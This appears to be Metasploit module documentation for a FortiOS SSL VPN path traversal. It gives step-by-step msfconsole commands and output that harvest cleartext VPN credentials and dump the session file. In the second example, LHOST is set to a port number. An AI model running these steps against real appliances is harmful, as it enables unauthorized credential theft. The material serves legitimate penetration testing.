 FortiOS system file leak through SSL VPN via specially crafted HTTP resource requests.

A path traversal vulnerability in the FortiOS SSL VPN web portal may allow an unauthenticated
attacker to download FortiOS system files through specially crafted HTTP resource requests.

## Vulnerable Application

This exploit read `/dev/cmdb/sslvpn_websession` file, this file contains login and passwords in (clear/text).
This vulnerability affect (FortiOS 5.4.6 to 5.4.12, FortiOS 5.6.3 to 5.6.7 and FortiOS 6.0.0 to 6.0.4).

## Verification Steps

1. Start msfconsole
2. Do: use auxiliary/scanner/http/fortios_vpnssl_traversal_leak
3. Do: set RHOSTS [IP]
4. Do: set RPORT 10443
5. Do: run

## Options

### DUMP_FORMAT

Dump format. (Accepted: raw, ascii)

### STORE_CRED

Store credential into the Metasploit database.

### STORE_LOOT

Store dump in loot directory.

## Scenarios

### Usages

You can scan and get all credentials on the remote target when you run the followind command:

```
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > options

Module options (auxiliary/scanner/http/fortios_vpnssl_traversal_leak):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_FORMAT  raw              yes       Dump format. (Accepted: raw, ascii)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       XXX.XX.XXX.X     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        10443            yes       The target port (TCP)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED   true             no        Store credential into the database.
   STORE_LOOT   false            no        Store dump in loot.
   TARGETURI    /remote          yes       Base path
   THREADS      16               yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > run

[*] Trying - https://XXX.XX.XXX.X:10443/
[+] Target - https://XXX.XX.XXX.X:10443/ - Vulnerable!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > creds
Credentials
===========

host          origin        service            public  private  realm  private_type  JtR Format
----          ------        -------            ------  -------  -----  ------------  ----------
XXX.XX.XXX.X  XXX.XX.XXX.X  10443/tcp (https)  redacted  redacted          Password      

msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) >
```

You can get a dump capture of the leaked data file.

To do this specific thing, here's how you do it:

```
msf6 > use auxiliary/scanner/http/fortios_vpnssl_traversal_leak
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > set RHOSTS [IP]
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > set LHOST 10443
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > set STORE_LOOT true
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) > run

[*] Trying - https://XXX.XX.XXX.X:10443/
[+] Target - https://XXX.XX.XXX.X:10443/ - Vulnerable!
[+] File saved to /home/mekhalleh/.msf4/loot/20201130122633_default_XXX.XX.XXX.X__209748.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/fortios_vpnssl_traversal_leak) >
```
